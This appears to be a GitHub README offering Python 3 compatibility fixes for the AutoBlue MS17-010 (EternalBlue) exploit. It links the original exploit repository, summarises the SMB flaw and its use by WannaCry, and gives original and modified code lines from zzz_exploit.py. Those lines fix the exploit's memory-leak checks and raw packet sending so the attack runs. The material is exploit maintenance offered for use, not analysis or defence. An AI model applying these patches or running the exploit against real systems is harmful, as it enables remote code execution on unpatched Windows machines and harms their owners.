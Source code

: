 # AutoBlue MS17-010 Python 3 Fix

This repo provides suggestions to fix the Python 3 version of the AutoBlue-MS17-010 Exploit Code, specifically addressing the issue related to the interaction of variables with `bytes` and `str` types in the Python scripts `mysmb.py` and `zzz_exploit.py`.

The original repository containing all the exploit files can be accessed at: https://github.com/3ndG4me/AutoBlue-MS17-010

MS17-010 is a security vulnerability in Microsoft Windows operating systems that was discovered in March 2017. The exploit allows an attacker to remotely execute code on a target system by sending specially crafted packets to the Windows Server Message Block (SMB) protocol. This vulnerability was famously exploited by the WannaCry ransomware attack in May 2017, which affected hundreds of thousands of computers worldwide. Microsoft released a patch to fix the vulnerability shortly after it was discovered.

The suggested changes for `zzz_exploit.py`:

- At line 321:
    ```python
    (original)     if leakData[X86_INFO['FRAG_TAG_OFFSET']:X86_INFO['FRAG_TAG_OFFSET']+4] == 'Frag':
    (modified)     if leakData[X86_INFO['FRAG_TAG_OFFSET']:X86_INFO['FRAG_TAG_OFFSET']+4] == b'Frag':
    ```

- At line 325:
    ```python
    (original)     elif leakData[X64_INFO['FRAG_TAG_OFFSET']:X64_INFO['FRAG_TAG_OFFSET']+4] == 'Frag':
    (modified)     elif leakData[X64_INFO['FRAG_TAG_OFFSET']:X64_INFO['FRAG_TAG_OFFSET']+4] == b'Frag':
    ```

- At line 328:
    ```python
    (original)     info['FRAG_POOL_SIZE'] = ord(leakData[ X64_INFO['FRAG_TAG_OFFSET']-2 ]) * X64_INFO['POOL_ALIGN']
    (modified)     info['FRAG_POOL_SIZE'] = leakData[ X64_INFO['FRAG_TAG_OFFSET']-2 ] * X64_INFO['POOL_ALIGN']
    ```

- At line 399:
    ```python
    (original)     conn.send_raw(req1[-8:]+req2+req3+''.join(reqs))
    (modified)     conn.send_raw(req1[-8:] + req2 + req3 + b''.join(reqs))
    ```

- At line 418:
    ```python
    (original)     if leakData[info['FRAG_TAG_OFFSET']:info['FRAG_TAG_OFFSET']+4] != 'Frag':
    (modified)     if leakData[info['FRAG_TAG_OFFSET']:info['FRAG_TAG_OFFSET']+4] != b'Frag':
    ```

- At line 429:
    ```python
    (original)     if leakData[0x4:0x8] != 'LStr' or leakData[info['POOL_ALIGN']:info['POOL_ALIGN']+2] != expected_size or leakData[leakTransOffset+2:leakTransOffset+4] != expected_size:
    (modified)     if leakData[0x4:0x8] != b'LStr' or leakData[info['POOL_ALIGN']:info['POOL_ALIGN']+2] != expected_size or leakData[leakTransOffset+2:leakTransOffset+4] != expected_size:
    ```
